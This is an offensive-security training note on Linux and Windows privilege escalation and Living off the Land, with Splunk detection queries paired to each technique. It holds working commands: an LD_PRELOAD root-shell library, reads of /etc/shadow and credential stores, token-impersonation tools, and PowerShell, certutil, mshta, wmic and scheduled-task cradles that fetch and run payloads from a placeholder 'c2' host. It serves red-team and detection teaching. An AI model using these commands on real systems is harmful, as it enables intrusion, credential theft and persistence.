

# 👑 3.1 Privilege Escalation & Living off the Land Masterclass

> [!abstract] The Masterclass
> A foothold is not the goal — **root/SYSTEM** is. This chapter is the post-foothold half of an engagement: systematic enumeration, Linux and Windows privilege escalation (SUID, sudo, capabilities, cron, kernel, token impersonation), and **Living off the Land (LOTL)** — abusing the target's own trusted, signed binaries so your activity blends into normal administration. Every technique is paired with the **telemetry it generates**, which **Advanced Defenses** then turns into a detection. **`#level/root`**

> [!danger] Authorized Red Team Simulation / IR Training only
> Everything here is documented for **authorized red-team engagements, CTFs/labs, and incident-response training**. These are the *prerequisites* for the detections in **Module 3.5** — you cannot defend against what you don't understand. Never run these against systems you don't own or aren't contracted to test.

> [!tip] Chapter Map
> **** · **** · **** · **** · ****

---

## Privilege Escalation Fundamentals

Escalation moves you from a low-privilege account to a high-privilege one — **horizontal** (another user, same level) or **vertical** (to admin/root). It builds directly on **GTFOBins** and the **CTF PrivEsc step**.



> **Golden rule (again):** most escalations are found by *enumeration*, not exploits. Automate it (LinPEAS/WinPEAS) but understand every finding.

---

## Enumeration — The Foundation

The first commands on any Linux foothold — establish *who you are* and *what the box is*:
```bash
id; whoami; hostname                # identity & role (SQL-PROD-01 tells a story)
uname -a; cat /proc/version; cat /etc/issue   # kernel/distro → exploit matching
sudo -l                              # commands you may run as root
ps aux; env; history                  # processes, env vars, past commands (leaked creds)
cat /etc/passwd | grep -v nologin     # real accounts
ip a; ip route                        # pivot potential to other networks
```
**Automated:** `linpeas.sh`, `LinEnum`, `linux-smart-enumeration`, `linux-exploit-suggester` (Linux); `winPEAS`, `Seatbelt`, `PowerUp` (Windows). They're fast but noisy — see the **detection** they trigger.

---

## Linux Privilege Escalation

### SUID / SGID → GTFOBins pipelines
Find every SUID-root binary, then chain the lookup against GTFOBins:
```bash
find / -perm -4000 -type f 2>/dev/null                 # SUID
find / -perm -u=s -type f 2>/dev/null | while read b; do
  echo "== $b =="; done                                  # iterate candidates
# a SUID file-reader hands you /etc/shadow:
LFILE=/etc/shadow; /usr/bin/base64 "$LFILE" | base64 --decode
```
If writable, you can even add a root-shell account directly to `/etc/passwd` (openssl-hashed password + `root:/bin/bash` fields) — a fast, noisy path best avoided outside a lab.

### sudo & LD_PRELOAD
`sudo -l` is the highest-value check. Any sudo-runnable binary with a shell escape (via **GTFOBins**) is root. If `sudoers` keeps `env_keep += LD_PRELOAD`, load a malicious shared object:
```c
// shell.c — compiled to a .so, runs as root when preloaded
void _init(){ unsetenv("LD_PRELOAD"); setgid(0); setuid(0); system("/bin/bash"); }
```
```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
sudo LD_PRELOAD=/tmp/shell.so find      # any sudo-allowed binary → root shell
```
![[Pasted image 20260218205516.png]]

### Capabilities
A stealthier cousin of SUID — `getcap` reveals granular powers that SUID-hunting misses (`cap_setuid`, and shell-escape binaries like `vim`):
```bash
getcap -r / 2>/dev/null                  # e.g. /usr/bin/vim.basic = cap_setuid+ep
# then abuse it (GTFOBins "capabilities" section) to reach uid 0
```

### Cron jobs, PATH & NFS
- **Cron** — a root cron running a script *you* can write to = instant root. Read `/etc/crontab`; look for **relative script names** (cron falls back to `PATH`) or wildcards (`tar`, `rsync`, `7z`).
- **PATH hijacking** — a root SUID program that calls a binary by *name* (not absolute path): prepend a writable dir to `PATH` and drop a malicious binary of that name.
- **NFS `no_root_squash`** — a writable export with this flag lets you plant a SUID-root binary from your attacking box and run it on the target as root:
  ![[Pasted image 20260219132645.png]]

### Kernel exploits
The last resort (risk of crashing the box): identify the kernel (`uname -r`), find a matching public exploit (searchsploit / **CVE lookup**), **read it**, and run it. Classics: Dirty COW, Dirty Pipe, PwnKit.
> ⚠️ A failed kernel exploit can panic the system — confirm this is acceptable scope before firing one.

---

## Windows Privilege Escalation

### The privilege accounts
- **SYSTEM / LocalSystem** — full host control, above Administrator.
- **Local/Network Service** — "minimum privilege" service accounts.

### Token impersonation → the Potato family
The highest-value Windows check is `whoami /priv`. If your service account holds **`SeImpersonatePrivilege`** or **`SeAssignPrimaryTokenPrivilege`** (common for IIS/MSSQL/service accounts), you can coerce a privileged process to authenticate to you and **impersonate its token** → SYSTEM:
```powershell
whoami /priv                       # look for SeImpersonatePrivilege = Enabled
# Modern coercion tools (authorized testing):
PrintSpoofer.exe -i -c cmd         # abuses the print spooler → SYSTEM
# RoguePotato / GodPotato / JuicyPotato — same primitive, different coercion
```
This is *the* canonical service-account escalation on Windows and a favourite after a web foothold.

### Stored credentials & Utilman
Windows hoards credentials an assessor harvests:
```cmd
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
cmdkey /list                         # saved creds → runas /savecred /user:admin cmd.exe
type C:\inetpub\wwwroot\web.config | findstr connectionString   # DB creds
reg query HKCU\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s  # PuTTY proxy creds
```
**Utilman** (Ease-of-Access, runs as SYSTEM at the lock screen) can be replaced with `cmd.exe` if you can take ownership of the binary → a SYSTEM shell from the lock screen:

![[Pasted image 20260221140900.png]]

Also check: **unquoted service paths**, **weak service permissions** (`sc qc`), **AlwaysInstallElevated**, and always run **winPEAS**.

---

## Living off the Land (LOTL)

**LOTL** means using the target's own **legitimate, signed, pre-installed binaries** ("LOLBins") instead of dropping your own tools — so execution blends with normal administration and evades allow-listing. Real crews (APT29, ALPHV/BlackCat, QakBot/IcedID loaders) rely on it. The Linux equivalent is **GTFOBins**; on Windows, the reference is [LOLBAS](https://lolbas-project.github.io/).

> [!note] Each tool below is paired with a real SIEM detection — that is the point
> These commands are the *offensive prerequisite*; the Splunk-style detections show how **blue teams** catch them.

### PowerShell — fileless, in-memory execution
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX (New-Object Net.WebClient).DownloadString('http://c2/payload.ps1')"
powershell -EncodedCommand SQBn...Base64...      # obfuscate intent from log filters
```
The **`IEX(DownloadString)`** cradle runs a remote script in memory (no disk artifact); `-EncodedCommand` hides the payload in Base64.
```splunk
index=sysmon OR index=wineventlog (EventCode=4688 OR EventCode=1 OR EventCode=4104)
(CommandLine="*powershell*IEX*" OR CommandLine="*-EncodedCommand*" OR CommandLine="*DownloadString*" OR CommandLine="*-Exec Bypass*")
| stats count values(Host) values(User) values(ParentImage) by CommandLine
```

### WMIC — remote execution & recon
```powershell
wmic /node:TARGET process call create "powershell -NoP -Command IEX(New-Object Net.WebClient).DownloadString('http://c2/p.ps1')"
```
Remote process creation that blends with admin behaviour.
```splunk
index=sysmon (EventCode=1 OR EventCode=4688)
CommandLine="*wmic*process call create*" | stats count by Host,User,ParentImage,CommandLine
```

### Certutil / MSHTA / Rundll32 — signed download & execute
```powershell
certutil -urlcache -split -f "http://c2/payload.exe" C:\Users\Public\p.exe   # signed downloader
certutil -decode encoded.b64 decoded.exe                                      # base64 → binary
mshta "http://c2/payload.hta"                                                 # run remote HTA (VBScript/JS)
rundll32.exe C:\Users\Public\backdoor.dll,Start                                # run a DLL export
```
All are Microsoft-signed and common in admin workflows — that's exactly why attackers pick them.
```splunk
index=sysmon Image="*\\certutil.exe" (CommandLine="* -urlcache *" OR CommandLine="* -decode *")
| stats count by Host,User,ParentImage,CommandLine
```

### Scheduled Tasks — persistence
```powershell
schtasks /Create /SC ONLOGON /TN "WindowsUpdate" /TR "powershell -Exec Bypass -Command IEX(New-Object Net.WebClient).DownloadString('http://c2/p')"
```
Benign-looking task names (`WindowsUpdate`, `Maintenance`) re-launch payloads across reboots.
```splunk
index=wineventlog EventCode=4698 OR (index=sysmon CommandLine="*schtasks* /Create*")
| stats count by Host,User,TaskName,CommandLine
```

> **The takeaway for both sides:** LOTL defeats naive "block unknown binaries" defences, so detection must be **behavioural** — *what* a signed binary does (a `certutil` that downloads an `.exe`, a `rundll32` running from `C:\Users\Public`), not merely *whether* it's trusted. That is the entire thesis of **3.5 Advanced Defenses**.

---

## 🔗 Related Master Notes & Deep-Dives
- **Linux and Command Line (GTFOBins and Binary Abuse)** · **Windows and OS Internals (Active Directory)** — the primitives this builds on
- **3.3 Exploit Development** — when you must *write* the exploit
- **3.4 Anti-Forensics and ShadowStep** — covering tracks post-escalation
- **3.5 Advanced Defenses** — detecting everything above
- **Tooling (Shells (Reverse & Bind))** — the shell you escalate from
- [[Branch Exploitation & Root Control]] — domain hub
